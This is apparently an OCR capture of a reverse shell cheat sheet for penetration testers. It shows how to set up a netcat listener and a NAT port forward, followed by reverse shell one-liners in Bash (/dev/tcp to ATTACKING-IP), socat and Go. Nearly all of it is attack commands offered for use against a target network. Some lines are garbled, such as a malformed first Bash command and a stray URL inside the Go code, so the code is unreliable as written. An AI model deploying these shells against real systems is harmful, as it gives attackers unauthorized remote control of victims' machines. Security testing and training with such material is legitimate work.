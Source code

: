 ##### Set your Netcat listening shell on an allowed port

Use a port that is likely allowed via outbound firewall rules on the target network, e.g. 80 / 443

To setup a listening netcat instance, enter the following:

```bash
root@kali:~# nc -nvlp 80
nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
```

##### NAT requires a port forward

If you're attacking machine is behing a NAT router, you'll need to setup a port forward to the attacking machines IP / Port.

**ATTACKING-IP** is the machine running your listening netcat session, port 80 is used in all examples below (for reasons mentioned above).

## Bash Reverse Shells[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells)

```bash
exec /bin/bash 0&0 2>&0
```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

## socat Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#socat-reverse-shell)

Source: @filip_dragovic

```bash
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```

## Golang Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#golang-reverse-shell)

```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```
